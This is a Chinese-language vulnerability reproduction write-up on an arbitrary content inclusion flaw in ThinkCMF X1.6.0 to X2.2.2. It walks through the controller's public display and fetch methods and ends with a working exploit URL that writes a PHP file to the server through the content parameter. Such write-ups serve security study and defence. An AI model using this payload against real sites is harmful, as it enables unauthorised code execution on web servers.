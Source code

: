 ThinkCMF 框架上的任意内容包含漏洞
=================================

一、漏洞简介
------------

二、漏洞影响
------------

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF
X2.2.2

三、复现过程
------------

根据index.php中的配置，他的项目路径为application，打开 Portal 下的
Controller 目录，选择一个控制类文件。

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId24.png)

发现他的父类为Common\\Controller\\HomebaseController。
在HomeBaseController中加入如下测试代码

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId25.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public,
而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

    http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId26.png)

HomeBaseController类中有一些访问权限为public的函数，

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId27.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
\$this-\>parseTemplate
函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

    /**
     * 加载模板和页面输出 可以返回输出内容
     * @access public
     * @param string $templateFile 模板文件名
     * @param string $charset 模板输出字符集
     * @param string $contentType 输出类型
     * @param string $content 模板输出内容
     * @return mixed
     */
    public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
        parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
    }

再往下就是调用Think View的fetch方法，这里的TMPL\_ENGINE\_TYPE 为Think,
最终模版内容解析在ParseTemplateBehavior中完成 如下调用即可加载任意文件
<http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md>

![](/Users/aresx/Documents/VulWiki/.resource/ThinkCMF框架上的任意内容包含漏洞/media/rId29.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

    http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>

